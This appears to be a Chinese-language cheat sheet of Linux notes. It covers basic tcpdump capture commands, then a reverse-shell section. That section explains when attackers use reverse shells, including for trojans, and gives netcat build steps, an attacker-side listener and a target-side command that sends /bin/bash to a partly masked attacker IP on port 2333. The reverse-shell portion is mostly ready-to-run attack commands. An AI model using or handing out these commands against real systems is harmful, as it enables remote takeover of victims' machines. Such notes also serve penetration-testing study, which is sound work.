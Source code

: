 ```sh
    
# 文档地址:
https://www.linuxidc.com/Linux/2019-08/160082.htm
```



## 抓包工具wireshark/tcpdump

### tcpdump

**默认启动**

```
tcpdump
```

**监视指定网络接口的数据包**

```bash
tcpdump -i eth0
# 文档手册:https://www.cnblogs.com/ggjucheng/archive/2012/01/14/2322659.html
```



## sehll反弹

反弹shell通常适用于如下几种情况：

•目标机因防火墙受限，目标机器只能发送请求，不能接收请求。

•目标机端口被占用。

•目标机位于局域网，或IP会动态变化，攻击机无法直接连接。

•对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知的。

### netcat

```sh
wget https://nchc.dl.sourceforge.net/project/netcat/netcat/0.7.1/netcat-0.7.1.tar.gz
tar -xvzf netcat-0.7.1.tar.gz
cd netcat-0.7.1
./configure
make && make install
make clean
```

安装完原生版本的 netcat 工具后，便有了netcat -e参数，我们就可以将本地bash反弹到攻击机上了。

**攻击机开启本地监听：**

```
netcat -lvvp 2333
```

**目标机主动连接攻击机：**

```
netcat 47.xxx.xxx.72 2333 -e /bin/bash# nc <攻击机IP> <攻击机监听的端口> -e /bin/bash
```
